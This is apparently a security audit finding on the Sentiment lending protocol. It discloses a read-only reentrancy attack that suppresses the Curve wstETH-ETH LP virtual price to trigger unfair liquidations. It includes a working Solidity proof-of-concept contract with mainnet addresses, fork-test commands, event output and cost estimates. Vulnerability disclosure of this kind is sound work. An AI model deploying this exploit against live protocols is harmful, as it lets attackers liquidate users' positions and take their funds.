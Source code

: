 GalloDaSballo

high

# H-01 wstETH-ETH Curve LP Token Price can be manipulated to Cause Unexpected Liquidations

## Summary

The wsteETH-ETH LP token is priced via it's [`virtual_price`](https://github.com/sherlock-audit/2022-12-sentiment/blob/main/oracle/src/curve/StableCurveEthOracle.sol#L72)

Through what [Chainalysis called View only Reentrancy](https://chainsecurity.com/heartbreaks-curve-lp-oracles/), we can reduce the value of `virtual_price`, causing the RiskEngine to trigger a liquidation event.

## Vulnerability Detail

Per some testing I made, we know that the Debt for such an account will be denominated in WETH, this price cannot be tampered.

However, the price of the ETH-wstETH LP Token can be manipulated by calling the RiskEngine while reEntering from the `POOL.remove_liquidity` function.

This is possible because the function will send ETH first, before updating it's internal wstETH balances.

To test the maximum impact I simulated borrowing an infinite amount of WETH (by impersonating the GMX Vault).

If that amount of ETH were available on Arbitrum, we can achieve over 10x in price suppression, effectively making any "normal" account instantly liquidatable.

The estimated cost of the attack is 60 BPS of the total ETH used (due to price impact)

## Impact

Because of the price manipulation, we can trigger unfair liquidations to our advantage, because the cost of manipulation is in the 50BPS range, any time a big enough deposit is made, it becomes profitable to force liquidate them.

In the theoretical scenario shown below (borrowing from GMX Vault), I can effectively liquidate any account using the token.
A more pragmatic scenario is listed below as well

## Code Snippet

Below a simulation showing how to achieve the Virtual Price Manipulation, the last piece of the attack would be to call liquidate on an account while re-entering

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.10;


import {IERC20} from "@oz/token/ERC20/IERC20.sol";
import {SafeERC20} from "@oz/token/ERC20/utils/SafeERC20.sol";
import {ReentrancyGuard} from "@oz/security/ReentrancyGuard.sol";

interface IAccount {
  function getAssets() external view returns (address[] memory);
  function getBorrows() external view returns (address[] memory);
}
interface IRiskEngine {
  function getBalance(address account) external view returns (uint);
  function getBorrows(address account) external view returns (uint);
}

interface ISentimentCore {
  function riskEngine() external view returns (address);
}

interface ICurvePool {
  function add_liquidity(uint256[2] memory amounts, uint256 min_mint_amount) external payable returns (uint256);
  function remove_liquidity(uint256 amount, uint256[2] memory min_amounts) external returns (uint256);
  function get_virtual_price() external view returns (uint256);
}

interface ILP {
  function balanceOf(address) external view returns (uint256);
}

contract VirtualPriceManip {
  ICurvePool POOL = ICurvePool(0x6eB2dc694eB516B16Dc9FBc678C60052BbdD7d80);
  ILP LP = ILP(0xDbcD16e622c95AcB2650b38eC799f76BFC557a0b);
  ILP WSTETH = ILP(0x5979D7b546E38E414F7E9822514be443A4800529);
  // Get WETH

  // Check Virtual Price

  // Deposit into Curve

  // Check Virtual Price

  // Withdraw, and ReEnter

  // Check Virtual Price

  // End, Check Virtual Price

  event Debug(string name, uint256 value);

  function fakeSentimentPrice() internal returns (uint256){
    uint256 FAKE_WETH_PRICE = 1e18;
    return FAKE_WETH_PRICE * POOL.get_virtual_price() / 1e18;
  }

  function startAttack() external payable {
    uint256 amt = msg.value;

    // 1. Check Virtual Price
    emit Debug("Virtual Price 1", POOL.get_virtual_price());
    emit Debug("fakeSentimentPrice 1", fakeSentimentPrice());

    // 2. Curve deposit
    uint256[2] memory dep = [amt, 0];
    POOL.add_liquidity{value: amt}(dep, 1);

    // 3. Check Virtual Price
    emit Debug("Virtual Price 3", POOL.get_virtual_price());
    emit Debug("fakeSentimentPrice 3", fakeSentimentPrice());

    // 4. Curve Withdraw
    // TODO: This is where profit maximization math will be necessary
    uint256[2] memory dep2 = [uint256(0), uint256(0)];
    POOL.remove_liquidity(LP.balanceOf(address(this)), dep2);

    // 6. Check Virtual Price
    emit Debug("Virtual Price 6", POOL.get_virtual_price());
    emit Debug("fakeSentimentPrice 6", fakeSentimentPrice());

    // TODO: Check loss in ETH and compare vs wstETH we now have
    // Loss is there, but should be marginal / imbalance + fees
    emit Debug("Msg.value", msg.value);
    emit Debug("This Balance", address(this).balance);
    emit Debug("Delta", msg.value - address(this).balance);

    emit Debug("WstEthBalance", WSTETH.balanceOf(address(this)));
  }

  receive() external payable {
    // 5. Reenter here

    // Check Virtual Price
    emit Debug("Virtual Price 5", POOL.get_virtual_price());
    emit Debug("fakeSentimentPrice 5", fakeSentimentPrice());
  }
}
```

Here the Brownie Console for the maximum theoretical attack

```python

weth = Contract.from_explorer("0x82aF49447D8a07e3bd95BD0d56f35241523fBab1")
whale = accounts.at("0x489ee077994b6658eafa855c308275ead8097c4a", force=True)
 
weth.transfer(a[0], weth.balanceOf(whale), {"from": whale})
weth.withdraw(weth.balanceOf(a[0]), {"from": a[0]})
c = VirtualPriceManip.deploy({"from": a[0]})
c.startAttack({"from": a[0], "value": a[0].balance() * 99 / 100})
 
Fetching source of 0x82aF49447D8a07e3bd95BD0d56f35241523fBab1 from api.arbiscan.io...
Fetching source of 0x8b194bEae1d3e0788A1a35173978001ACDFba668 from api.arbiscan.io...
Transaction sent: 0x69a4ee6fba72894d2e6c7ba556a6df8bb2159981e09b7dd947283368628baefa
  Gas price: 0.0 gwei   Gas limit: 20000000   Nonce: 1
  TransparentUpgradeableProxy.transfer confirmed   Block: 42567825   Gas used: 39080 (0.20%)

Transaction sent: 0xfecb0db00b3db0b7b6cf22bc1adc92d16169060ead3a9c13f88a19b0c57fd666
  Gas price: 0.0 gwei   Gas limit: 20000000   Nonce: 0
  TransparentUpgradeableProxy.withdraw confirmed   Block: 42567826   Gas used: 30937 (0.15%)

Transaction sent: 0x198d4b73e7def112903606efa77c0add9910e7f3e86186e310a0adbfec0adebc
  Gas price: 0.0 gwei   Gas limit: 20000000   Nonce: 1
  VirtualPriceManip.constructor confirmed   Block: 42567827   Gas used: 647070 (3.24%)
  VirtualPriceManip deployed at: 0x602C71e4DAC47a042Ee7f46E0aee17F94A3bA0B6

Transaction sent: 0x101e212ca64ed3fc6595c15c30706a8075a010ed866ba5b230cb494f9ac20c5c
  Gas price: 0.0 gwei   Gas limit: 20000000   Nonce: 2
  VirtualPriceManip.startAttack confirmed   Block: 42567828   Gas used: 354622 (1.77%)

>>> history[-1].events
{'Debug': [OrderedDict([('name', 'Virtual Price 1'), ('value', 1005466150529603227)]), OrderedDict([('name', 'fakeSentimentPrice 1'), ('value', 1005466150529603227)]), OrderedDict([('name', 'Virtual Price 3'), ('value', 1005678057072654996)]), OrderedDict([('name', 'fakeSentimentPrice 3'), ('value', 1005678057072654996)]), OrderedDict([('name', 'Virtual Price 5'), ('value', 93457469619424556)]), OrderedDict([('name', 'fakeSentimentPrice 5'), ('value', 93457469619424556)]), OrderedDict([('name', 'Virtual Price 6'), ('value', 1005678057072654996)]), OrderedDict([('name', 'fakeSentimentPrice 6'), ('value', 1005678057072654996)]), OrderedDict([('name', 'Msg.value'), ('value', 86826027227418610000000)]), OrderedDict([('name', 'This Balance'), ('value', 83541864626282883099978)]), OrderedDict([('name', 'Delta'), ('value', 3284162601135726900022)]), OrderedDict([('name', 'WstEthBalance'), ('value', 2736183720644597163208)])], 'Transfer': [OrderedDict([('_from', '0x0000000000000000000000000000000000000000'), ('_to', '0x602C71e4DAC47a042Ee7f46E0aee17F94A3bA0B6'), ('_value', 81436145961234587181162)]), OrderedDict([('from', '0x6eB2dc694eB516B16Dc9FBc678C60052BbdD7d80'), ('to', '0x602C71e4DAC47a042Ee7f46E0aee17F94A3bA0B6'), ('value', 2736183720644597163208)]), OrderedDict([('_from', '0x602C71e4DAC47a042Ee7f46E0aee17F94A3bA0B6'), ('_to', '0x0000000000000000000000000000000000000000'), ('_value', 81436145961234587181162)])], 'AddLiquidity': [OrderedDict([('provider', '0x602C71e4DAC47a042Ee7f46E0aee17F94A3bA0B6'), ('token_amounts', (86826027227418610000000, 0)), ('fees', (11884971933620921875, 9942362504203593908)), ('invariant', 86698045640581035174753), ('token_supply', 86190407433150506590178)])], 'RemoveLiquidity': [OrderedDict([('provider', '0x602C71e4DAC47a042Ee7f46E0aee17F94A3bA0B6'), ('token_amounts', (83541864626282883099978, 2736183720644597163208)), ('fees', (0, 0)), ('token_supply', 4754261471915919409016)])]}


>>> 93457469619424556 / 1005466150529603227 * 100
9.294939423887941

>>> 93457469619424556 / 1005466150529603227 * 100
9.294939423887941
>>> eth_to_convert = 2736183720644597163208 * 1.08
>>> 3284162601135726900022 - eth_to_convert
3.290841828395613e+20
>>> 3.290841828395613e+20 / 86826027227418610000000 * 100
## 37 BPS to perform the attack, remaining costs would bring it up to around 50 BPS (swap wstETH, cost of liquidations, etc..)
0.3790155939964975

## See `fakeSentiment5 vs fakeSentimen1`
>>> 93457469619424556 / 1005466150529603227 * 100
9.294939423887941

"""
Price is 9% of it's original value, we achieve a 10X price depreciation, allowing us to liquidate any user that has taken minimal leverage
"""

```

## Tool used

Manual Review

## Recommendation

At this time, I would recommend NOT to use the ETH-stETH LP Token as the price is manipulatable.
The only rational way I could expect this to be solved is for Chainlink to offer virtual_price oracles, or the development of a TWAP for the virtual_price.


## Additional Considerations

The theoretical maximum attack allows to effectively liquidate any account that uses the stETH-WETH Pool.

In practice, via an AAVE Flashloan I'm able to borrow up to 14.5k WETH, which allows to move the price by over 11%, meaning that some accounts, that are levered at around 90% could be unfairly liquidated.

```python
>>> history[-1].events
{'Debug': [OrderedDict([('name', 'Virtual Price 1'), ('value', 1005466094471744332)]), OrderedDict([('name', 'fakeSentimentPrice 1'), ('value', 1005466094471744332)]), OrderedDict([('name', 'Virtual Price 3'), ('value', 1005497298777214105)]), OrderedDict([('name', 'fakeSentimentPrice 3'), ('value', 1005497298777214105)]), OrderedDict([('name', 'Virtual Price 5'), ('value', 890315892210177531)]), OrderedDict([('name', 'fakeSentimentPrice 5'), ('value', 890315892210177531)]), OrderedDict([('name', 'Virtual Price 6'), ('value', 1005497298777214105)]), OrderedDict([('name', 'fakeSentimentPrice 6'), ('value', 1005497298777214105)]), OrderedDict([('name', 'Msg.value'), ('value', 1452330000000000000000)]), OrderedDict([('name', 'This Balance'), ('value', 713314090131700921245)]), OrderedDict([('name', 'Delta'), ('value', 739015909868299078755)]), OrderedDict([('name', 'WstEthBalance'), ('value', 677574531693017948098)])], 'Transfer': [OrderedDict([('_from', '0x0000000000000000000000000000000000000000'), ('_to', '0xE7eD6747FaC5360f88a2EFC03E00d25789F69291'), ('_value', 1449753409949781400798)]), OrderedDict([('from', '0x6eB2dc694eB516B16Dc9FBc678C60052BbdD7d80'), ('to', '0xE7eD6747FaC5360f88a2EFC03E00d25789F69291'), ('value', 677574531693017948098)]), OrderedDict([('_from', '0xE7eD6747FaC5360f88a2EFC03E00d25789F69291'), ('_to', '0x0000000000000000000000000000000000000000'), ('_value', 1449753409949781400798)])], 'AddLiquidity': [OrderedDict([('provider', '0xE7eD6747FaC5360f88a2EFC03E00d25789F69291'), ('token_amounts', (1452330000000000000000, 0)), ('fees', (192842135570862938, 176890872766115807)), ('invariant', 6238313797265075968081), ('token_supply', 6204014881865700809814)])], 'RemoveLiquidity': [OrderedDict([('provider', '0xE7eD6747FaC5360f88a2EFC03E00d25789F69291'), ('token_amounts', (713314090131700921245, 677574531693017948098)), ('fees', (0, 0)), ('token_supply', 4754261471915919409016)])]}
>>> 890315892210177531 / 1005466094471744332
## Around 11.2% Price Manipulation with 14.5k ETH used
0.8854757978467043
```

To put it in simple terms, the cost of this attack is around $90k and it will be profitable to liquidate any position above $100k